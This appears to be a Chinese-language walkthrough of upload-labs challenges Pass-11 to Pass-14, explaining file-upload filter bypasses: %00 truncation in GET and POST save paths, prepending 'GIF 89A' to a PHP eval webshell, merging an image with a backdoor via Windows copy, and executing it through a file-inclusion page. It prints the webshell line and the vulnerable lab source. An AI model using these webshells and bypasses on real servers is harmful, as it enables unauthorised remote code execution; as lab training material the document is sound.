


特殊的文件上传漏洞（一）
我们来讲讲特殊的文件上传漏洞（一）。
GET-00截断绕过
Pass-11
抓包，看到在请求的url上出现了敏感的字符，save_path=../upload/
出现这样的字样，我们首先需要想想，这个上传保存路径是否可控？
首先为了上传成功首先得把backdoor.php改成
接下来我们猜想，save_path可以指定某个路径存储，我们可以让它存在别的地方嘛？
上传成功
确实生成了
那也就是说，控制save_path是可行的，但想到如果save_path变成一个文件路径的话，应该会报错。果不其然

如果能有这么一种方法，能让save_path直接成为最后保存的文件路径该多好，比如save_path=../upload/11.php
虽然上传的是backdoor.jpg，但存储的时候直接就成了php格式。有办法做到么？有！答案就是GET-00截断、
只需要修改：
save_path=../upload/11.php%00
|
成功上传不报错
upload/11.php也生成了

菜刀正常连接。搞定！
除了在url里加%00之外，有些时候，也可以在filename里加
比如这样改
然后在hex里找到+的位置（十六进制为2b），将其替换成00
其实用到的原理就是：00截断就是借php解析字符串的时候遇到00截断停止，不再解析的特点，把文件路径提前错误地识别成了文件（本应该是路径才对）。
这就衍生出了，post-00截断
POST-00截断绕过
Pass-12
save_path出现在了POST请求的参数区
那么我们可以这样构造
../upload/123.php+
filename="backdoor.png"
|
然后在hex中修改+的十六进制0x2b为00
上传成功
菜刀也可以成功连接123.php文件
图片马绕过(白名单绕过)
Pass-13
本题考察对于文件头解析+图片马合成
绕过文件头解析
常用文件头：
.jpeg; .jpe; .jpg, "JPGGraphic File".gif,"GIF 89A".zip, "Zip Compressed".doc; .xls; .xlt; .ppt; .apr, "MS Compound Document v1 or Lotus Approach APRfile"
JPEG（jpg），文件头：FFD8FF
PNG（png），文件头：89504E47
GIF（gif），文件头：47494638
Windows Bitmap（bmp），文件头：424D
CAD（dwg），文件头：41433130
Adobe Photoshop（psd），文件头：38425053
Rich Text Format（rtf），文件头：7B5C727466
XML（xml），文件头：3C3F786D6C
HTML（html），文件头：68746D6C3E
Email [thorough only]（eml），文件头：44656C6976572792D646174653A
Outlook Express（dbx），文件头：CFAD12FEC5FD746F
Outlook（pst），文件头：2142444E
Ms Word/Excel（xls.or.doc），文件头：D0CF11E0
Ms Access（mdb），文件头：5374616E64617264204A
WordPerfect（wpd），文件头：FF575043
Adobe Acrobat（pdf），文件头：255044462D312E
Quicken（qdf），文件头：AC9EBD8F
Windows Password（pwl），文件头：E3828596
ZIP Archive（zip），文件头：504B0304
RAR Archive（rar），文件头：52617221
Wave（wav），文件头：57415645
AVI（avi），文件头：41564920
Real Audio（ram），文件头：2E7261FD
Real Media（rm），文件头：2E524D46
MPEG（mpg），文件头：000001BA
MPEG（mpg），文件头：000001B3
QuickTime（mov），文件头：6D6F6F76
Windows Media（asf），文件头：3026B2758E66CF11
MIDI（mid），文件头：4D546864
|
有些web程序会根据传上来文件的头几个字节来判断是属于什么类型，比如GIF的魔术字是GIF 89A
我们尝试在一句话木马前面增加GIF 89A：
GIF 89A
<?php @eval($_POST[margin]);?>
|

可以看到成功被识别成了gif而上传给了服务器
我们将此路径./upload/5020221003232644.gif拷贝，注意只拷贝一个点
发现题目还给了一个文件包含的链接
<?php
header("Content-Type:text/html;charset=utf-8");
$file = $_GET['file'];
if(isset($file)){
include $file;
}else{
show_source(__file__);
}
?>
|
当前http://www.upload_lab.com/include.php页面，可以接收一个GET型参数file，我们如下构造：
可以发现，只显示了GIF 89A，一句话木马没有显示在页面，说明成功解析成了php。
菜刀连接，成功：
绕过unpack头两字节
使用windows的copy命令
我们准备两个文件，一个是正常的png图片webshell.png，一个是一句话木马的php文件backdoor.php
copy webshell.png /b + backdoor.php /b backdoor.png
|
那么可以上传这个文件，可以看到成功上传
菜刀成功连接：

回过头来看源码：
function getReailFileType($filename){
$file = fopen($filename, "rb");
$bin = fread($file, 2);
fclose($file);
$strInfo = @unpack("C2chars", $bin);
$typeCode = intval($strInfo['chars1'].$strInfo['chars2']);
$fileType = '';
switch($typeCode){
case 255216:
$fileType = 'jpg';
break;
case 13780:
$fileType = 'png';
break;
case 7173:
$fileType = 'gif';
break;
default:
$fileType = 'unknown';
}
return $fileType;
}
$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
$temp_file = $_FILES['upload_file']['tmp_name'];
$file_type = getReailFileType($temp_file);
if($file_type == 'unknown'){
$msg = "文件未知，上传失败！";
}else{
$img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").".".$file_type;
if(move_uploaded_file($temp_file,$img_path)){
$is_upload = true;
} else {
$msg = "上传出错！";
}
}
}
|
其中，isset函数通过下面的会很好理解：
- 就是一个变量已声明，且不为NULL（可以是’ ‘）时，会返回真。
if (isset($var)) {
echo "This var is set so I will print.";
}
$a = "test";
$b = "anothertest";
var_dump(isset($a));
var_dump(isset($a, $b));
unset ($a);
var_dump(isset($a));
var_dump(isset($a, $b));
$foo = NULL;
var_dump(isset($foo));
?>
<?php
$a = array ('test' => 1, 'hello' => NULL, 'pie' => array('a' => 'apple'));
var_dump(isset($a['test']));
var_dump(isset($a['foo']));
var_dump(isset($a['hello']));
var_dump(array_key_exists('hello', $a));
var_dump(isset($a['pie']['a']));
var_dump(isset($a['pie']['b']));
var_dump(isset($a['cake']['a']['b']));
?>
|
绕过getimagesize
Pass-14和Pass-13绕过方式一样，同样上传图片copy拼接马即可。
我们直接来看源码
function isImage($filename){
$types = '.jpeg|.png|.gif';
if(file_exists($filename)){
$info = getimagesize($filename);
$ext = image_type_to_extension($info[2]);
if(stripos($types,$ext)>=0){
return $ext;
}else{
return false;
}
}else{
return false;
}
}
$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
$temp_file = $_FILES['upload_file']['tmp_name'];
$res = isImage($temp_file);
if(!$res){
$msg = "文件未知，上传失败！";
}else{
$img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").$res;
if(move_uploaded_file($temp_file,$img_path)){
$is_upload = true;
} else {
$msg = "上传出错！";
}
}
}
|
其中，getimagesize() 函数将测定任何 GIF，JPG，PNG，SWF，SWC，PSD，TIFF，BMP，IFF，JP2，JPX，JB2，JPC，XBM 或 WBMP 图像文件的大小并返回图像的尺寸以及文件类型及图片高度与宽度。
<?php
$remote_png_url = 'http://www.runoob.com/wp-content/themes/w3cschool.cc/assets/img/logo-domain-green2.png';
$img_data = getimagesize($remote_png_url);
print_r($img_data );
?>
输出为：
Array
(
[0] => 290
[1] => 69
[2] => 3
[3] => width="290" height="69"
[bits] => 8
[mime] => image/png
)
|
返回结果说明
- 索引 0 给出的是图像
宽度的像素值
- 索引 1 给出的是图像
高度的像素值
- 索引 2 给出的是图像的
类型，返回的是数字，其中1 = GIF，2 = JPG，3 = PNG，4 = SWF，5 = PSD，6 = BMP，7 = TIFF(intel byte order)，8 = TIFF(motorola byte order)，9 = JPC，10 = JP2，11 = JPX，12 = JB2，13 = SWC，14 = IFF，15 = WBMP，16 = XBM
- 索引 3 给出的是一个
宽度和高度的字符串，可以直接用于 HTML 的 image 标签
- 索引 bits 给出的是图像的
每种颜色的位数，二进制格式
- 索引 channels 给出的是图像的
通道值，RGB 图像默认是 3
- 索引 mime 给出的是图像的
MIME 信息，此信息可以用来在 HTTP Content-type头信息中发送正确的信息，如： header(“Content-type: image/jpeg”);
stripos() 函数查找字符串在另一字符串中第一次出现的位置（不区分大小写）。
stripos(*string,find,start*)
| 参数 |
描述 |
| string |
必需。规定被搜索的字符串。 |
| find |
必需。规定要查找的字符。 |
| start |
可选。规定开始搜索的位置。 |
绕过exif_imagety
exif_imagetype()函数是PHP中的内置函数，用于确定图像的类型。
int exif_imagetype( string $filename )
|
参数：该函数接受单个参数$filename，该参数保存图像的名称或URL。
返回值：此函数返回与IMAGETYPE常量之一相对应的整数，如下所示：
- IMAGETYPE_GIF(1)
- IMAGETYPE_JPEG(2)
- IMAGETYPE_PNG(3)
- IMAGETYPE_SWF(4)
- IMAGETYPE_PSD(5)
- IMAGETYPE_BMP(6)
- IMAGETYPE_TIFF_II(7)
- IMAGETYPE_TIFF_MM(8)
- IMAGETYPE_JPC(9)
- IMAGETYPE_JP2(10)
- IMAGETYPE_JPX(11)
- IMAGETYPE_JB2(12)
- IMAGETYPE_SWC(13)
- IMAGETYPE_IFF(14)
- IMAGETYPE_WBMP(15)
- IMAGETYPE_XBM(16)
- IMAGETYPE_ICO(17)
- IMAGETYPE_WEBP(18)
查看源码：
function isImage($filename){
$image_type = exif_imagetype($filename);
switch ($image_type) {
case IMAGETYPE_GIF:
return "gif";
case IMAGETYPE_JPEG:
return "jpg";
case IMAGETYPE_PNG:
return "png";
default:
return false;
}
echo $image_type;
}
$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
$temp_file = $_FILES['upload_file']['tmp_name'];
$res = isImage($temp_file);
if($res == false){
$msg = "文件未知，上传失败！";
}else{
$img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").".".$res;
if(move_uploaded_file($temp_file,$img_path)){
$is_upload = true;
} else {
$msg = "上传出错！";
}
}
}
|
其中，如果要使用内置函数exif_imagetype的话，一定需要先开启php_exif模块
开启方法如下：
找到C:\phpStudyB\PHP\php.ini文件
服务器配置说明：
1.在php.ini文件中找到;extension=php_exif.dll，去掉前面的分号
2.在php.ini文件中找到;extension=php_mbstring.dll，去掉前面的分号，并将此行移动到extension=php_exif.dll之前，使之首先加载。
3.找到[exif]段，把下面语句的分号去掉。
;exif.encode_unicode = ISO-8859-15
;exif.decode_unicode_motorola = UCS-2BE
;exif.decode_unicode_intel = UCS-2LE
;exif.encode_jis =
;exif.decode_jis_motorola = JIS
;exif.decode_jis_intel = JIS
|
开启后，如果还想再次验证是否开启exif模块的话，在WWW目录下放置phpinfo.php
然后直接访问http://www.upload_lab.com/phpinfo.php, 并在页面Ctrl+F搜索exif即可。（不开启是搜索不到的）